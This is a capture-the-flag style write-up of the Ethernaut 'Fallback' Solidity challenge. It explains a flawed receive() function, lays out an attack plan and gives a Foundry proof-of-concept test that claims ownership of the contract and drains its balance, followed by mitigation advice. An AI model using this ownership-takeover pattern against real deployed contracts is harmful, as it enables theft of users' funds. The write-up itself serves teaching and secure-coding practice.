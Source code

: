 # Level 1 - Fallback

## Objectives

- claim ownership of the contract
- reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods

## Contract Overview

The fallback contract allows users to contribute ether to the contract. The contract is supposed to work as follows:

- `contribute()` function is restricted to payments smaller than `0.001 ether`

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether); // <-- this line over here
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- if a user has contributed more than the owner, he then becomes the owner
  - claiming ownership this way would be very tedious because contributions of the initial owner are set to 1000 ether

```solidity
    function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <-- this line over here
      owner = msg.sender; // <-- this line over here
    }
  }
```

- the owner can withdraw all of the funds

```solidity
  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }
```

## Finding the weak spots

The fallback contract contains a `receive()` function that at first glance contains flawed logic. That is why if we want to claim ownership of the contract we have to trigger `receive()` function. In order to do this we have to fullfill `require` condition.

```solidity
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```

> The receive function is executed on a call to the contract with empty calldata. This is the function that is executed on plain Ether transfers (e.g. via .send() or .transfer()). If no such function exists, but a payable fallback function exists, the fallback function will be called on a plain Ether transfer. If neither a receive Ether nor a payable fallback function is present, the contract cannot receive Ether through regular transactions and throws an exception.
>
> \_Reference: https://docs.soliditylang.org/en/v0.8.12/contracts.html#receive-ether-function*

We can send Ether to other contracts by:

- transfer (2300 gas, throws error)
- send (2300 gas, returns bool)
- call (forward all gas or set gas, returns bool)

  | Function   | Amount of Gas Forwarded        | Exception Propagation              |
  | :--------- | :----------------------------- | :--------------------------------- |
  | `send`     | 2300 (not adjustable)          | `false` on failure (returns bool)  |
  | `transfer` | 2300 (not adjustable)          | `throws` on failure (throws error) |
  | `call`     | all remaining gas (adjustable) | `false` on failure (returns bool)  |

  \_Reference: https://solidity-by-example.org/sending-ether/*

We will need to use the `call` method so that the contract has enough gas left to change the `owner` state after performing the transfer. Both `send` and `transfer` have a fixed gas stipend which would be insufficient for this purpose.

## Potential attack scenario - hypothesis

If attacker sends ether directly to the contract via external call, he can become the owner of the contract without the need to contribute more than the owner.

## Plan of the attack

1. Contribute with a small amount of ether to be added to the `contributions` mapping.
2. Trigger the fallback function (`receive()`) to gain ownership of the contract.
3. Confirm the ownership of the contract has changed.
4. Withdraw all the funds.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/01-Fallback.t.sol))

```solidity
  //Triggering contribute function with value greater than 0
        fallbackContract.contribute{value: 1}();
        emit log_named_uint(
            "Attackers's contribution: ",
            fallbackContract.getContribution()
        );

        // Triggering the fallback function - we need to send a transaction to the contract without indicating a method. We are going to use global function call
        (bool success, ) = address(fallbackContract).call{value: 1}("");
        require(success);

        emit log_named_address(
            "New owner of the contract: ",
            fallbackContract.owner()
        );

        emit log_named_uint(
            "Balance of the contract before withdrawal: ",
            address(fallbackContract).balance
        );

        // Withdrawing contract balance
        fallbackContract.withdraw();

        emit log_named_uint(
            "Balance of the contract after withdrawal: ",
            address(fallbackContract).balance
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Fallback.png)

## Recommendations

1. The first way to mitigate the issue would be to move ownership transfer out of the receive function into separate `transferOwnership()` function which would perform all the necessary checks.
2. Second possible solution is to add additional logic to the receive function to check if the user has enough contributions to become the owner. It could be done like this:

```solidity
receive() external payable {
	require(msg.value > 0 && contributions[msg.sender] > 0);
	contributions[msg.sender] += msg.value;

	if (contributions[msg.sender] > contributions[owner]) {
		owner = msg.sender;
	}
}
```

## Additional information

You can also read my two other solutions (using console and Remix) on my blog: https://matrix-0wl.gitbook.io/ethernaut/1.-fallback-fallback-function

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ).

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
